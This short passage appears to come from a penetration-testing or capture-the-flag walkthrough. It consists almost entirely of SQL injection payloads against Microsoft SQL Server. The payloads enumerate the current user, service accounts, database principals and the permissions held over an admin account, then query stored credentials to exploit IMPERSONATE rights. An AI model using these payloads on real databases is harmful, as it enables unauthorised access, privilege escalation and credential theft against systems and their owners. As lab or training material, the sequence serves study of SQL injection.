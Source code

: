 - Check which current SQL user is used :
```sql
UNION ALL SELECT null,CURRENT_USER,null,null,null--
```

- Check the account in whose context the server services are running in :
```sql
UNION ALL SELECT null,servicename,service_account,null,null FROM sys.dm_server_services--
```

- Check for other database principals :
```sql
UNION ALL SELECT null,name,null,null,null FROM sys.database_principals--
```

- Check if the current user have any permissions over this account :
```sql
UNION SELECT null,entity_name collate DATABASE_DEFAULT,permission_name collate DATABASE_DEFAULT,null,null FROM fn_my_permissions('daedalus_admin', 'USER');--
```

- The user have **IMPERSONATE** permissions. Identify the SQL credentials and proxy account that allows the account to execute these jobs :
```sql
UNION ALL SELECT null,name,credential_identity,null,null FROM sys.credentials--
```